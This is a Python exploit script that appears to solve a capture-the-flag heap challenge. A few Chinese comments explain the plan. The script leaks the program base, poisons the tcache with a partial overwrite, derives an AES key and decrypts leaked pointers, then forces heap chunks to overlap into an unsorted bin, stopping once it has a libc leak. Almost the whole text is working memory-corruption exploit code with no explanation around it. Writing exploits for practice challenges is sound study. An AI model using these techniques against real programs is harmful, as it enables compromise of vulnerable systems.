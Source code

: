 ```py
    """
    # Create AES cipher in ECB mode
    cipher = AES.new(key, AES.MODE_ECB)
    
    # Decrypt the ciphertext
    decrypted_padded = cipher.decrypt(ciphertext)
    
    # Unpad the decrypted plaintext to retrieve original message
    # plaintext = unpad(decrypted_padded, AES.block_size)
    
    return decrypted_padded 

# 输入小于16字节的话就不会被加密解密
for i in range(3):
    add(i,b"a"*16)
  
# leak proc
show(1)
p.recvuntil("a"*16)
proc_base = u64(p.recv(6).ljust(8,b"\x00"))-0x1bf0

print(hex(proc_base))
# tcache poisoning partial overwrite **这一步 mark 一下吧，以及是 overwrite key 不是 leak key 的思路**
delete(0)
delete(1)
edit(1,b"\xa0")
add(2,b"aaa")

add(3,b"\x00"*0x10)
initial_key = bytes([0] * 16)
#  0x3b2c8aefd44be966 0x2e2b34ca59fa4c88
key = aes_encrypt(initial_key,initial_key)[:16]
print(key)
# 再来两次 tcache poisoning 搞堆重叠 构造 unsorted bin 吧
add(4,b"a"*0x10)
add(5,b"a"*0x10)

delete(4)
delete(5)

show(5)
leak = p.recv(16)
print(leak)
leak_new = aes_encrypt(leak,key)
print(leak_new)
heap_leak = u64(leak_new[:6].ljust(8,b"\x00"))
print(hex(heap_leak))
heap_base = heap_leak - 0x380
# put enough space in between
edit(4,b"\x00"*8)
add(4,b"aaaa") # 0x3c0 + heap_base
add(5,b"bbbb") # 0x370 + heap_base
add(6,b"c"*0x10) # 0x400 + heap_base
for i in range(0x12):
    add(0,b"aaaa")
delete(4)
delete(5)
edit(5,p64(heap_base + 0x3f0))
add(1,b"t"*0x10)
add(2,p64(0)+p64(0x481)[:6])
delete(6)
show(6)
libc_leak = p.recv(16)
```